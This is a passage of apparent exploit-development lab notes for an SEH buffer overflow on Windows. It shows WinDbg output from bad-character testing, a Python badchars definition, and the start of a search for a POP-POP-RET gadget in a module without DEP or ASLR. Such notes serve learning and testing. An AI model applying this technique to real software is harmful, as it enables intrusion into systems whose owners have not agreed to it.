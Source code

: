 ```sh
```

This is a hard one to decipher, because of the way the rest of the badchars came back afterwards, and they were found way out of alignment.  But I think `\x0a` is a badchar.  So adding it.

Yes, that was correct.  All is well now
```sh
0:003> !exchain
00a1fbe4: 41414141
Invalid exception stack at 40404040
0:003> db 0x00a1fbe4 L0x256
00a1fbe4  40 40 40 40 41 41 41 41-01 02 03 04 05 06 07 08  @@@@AAAA........
00a1fbf4  09 0b 0c 0d 0e 0f 10 11-12 13 14 15 16 17 18 19  ................
00a1fc04  1a 1b 1c 1d 1e 1f 20 21-22 23 24 25 26 27 28 29  ...... !"#$%&'()
00a1fc14  2a 2b 2c 2d 2e 2f 30 31-32 33 34 35 36 37 38 39  *+,-./0123456789
00a1fc24  3a 3b 3c 3d 3e 3f 40 41-42 43 44 45 46 47 48 49  :;<=>?@ABCDEFGHI
00a1fc34  4a 4b 4c 4d 4e 4f 50 51-52 53 54 55 56 57 58 59  JKLMNOPQRSTUVWXY
00a1fc44  5a 5b 5c 5d 5e 5f 60 61-62 63 64 65 66 67 68 69  Z[\]^_`abcdefghi
00a1fc54  6a 6b 6c 6d 6e 6f 70 71-72 73 74 75 76 77 78 79  jklmnopqrstuvwxy
00a1fc64  7a 7b 7c 7d 7e 7f 80 81-82 83 84 85 86 87 88 89  z{|}~...........
00a1fc74  8a 8b 8c 8d 8e 8f 90 91-92 93 94 95 96 97 98 99  ................
00a1fc84  9a 9b 9c 9d 9e 9f a0 a1-a2 a3 a4 a5 a6 a7 a8 a9  ................
00a1fc94  aa ab ac ad ae af b0 b1-b2 b3 b4 b5 b6 b7 b8 b9  ................
00a1fca4  ba bb bc bd be bf c0 c1-c2 c3 c4 c5 c6 c7 c8 c9  ................
00a1fcb4  ca cb cc cd ce cf d0 d1-d2 d3 d4 d5 d6 d7 d8 d9  ................
00a1fcc4  da db dc dd de df e0 e1-e2 e3 e4 e5 e6 e7 e8 e9  ................
00a1fcd4  ea eb ec ed ee ef f0 f1-f2 f3 f4 f5 f6 f7 f8 f9  ................
00a1fce4  fa fb fc fd fe ff 42 42-42 42 42 42 42 42 42 42  ......BBBBBBBBBB
```

Final badcchars:
```python
badchars = "\x00\x0a"
```

Nothing uses the variable beyond hunting for badchars.


# Finding PopPopRet
Of note, only the rainbow binary will do.  Everything else has DEP and ASLR enabled, and, why fight them if you don't have to.
```sh
0:003> !load narly

      __s|I}*!{a.                        ._s,aan2*a
     _wY1+~-    )S,                     .ae"~=:...:X
   .vXl+:.       -4c                   <2+=|==::..:d
   vvi=;..        -?o,                =2=+==:::...=d
  )nv=:.            )5,              .2=--.......-=d
  ue+::              -*s             <c .        .=d
  m>==::..     ._,     <s,           )c           :d
  #==viii|===; {Xs=,    -{s          )c         ..:d
  Z;{nnonnvvii;v(-{%=.    ~s,        )e:====||iiv%=d
  X={oooonvvIl;3;  -{%,    -*>       )2<onnnnvnnnn>d
  X=)vvvvIliii:3;    -!s.   :)s.     )e<oonvlllllIid
  X=<lllliii|=:n;      -1c.  +|1,    )z<nvii||+|+|vX
  S=<lli|||=:: n;        "nc  -s%;   )c=ovl|++==+=vo
  X=<i||+=; . .n`          "1>.-{%i. )c<Xnnli||++=vn
  X=iii>==-.  :o`            "1,:+iI,)c:Sonnvli||=v(
  X>{ii+;:-  .u(               "o,-{Iw(:nvvvllii=v2
  S=i||;:. .=u(                 -!o,+I(:iiillii|ie`
  2>v|==__su?`                    -?o,-:==||iisv"
  {nvnI!""~                         -!sasvv}""`

             by Nephi Johnson (d0c_s4vage)
```
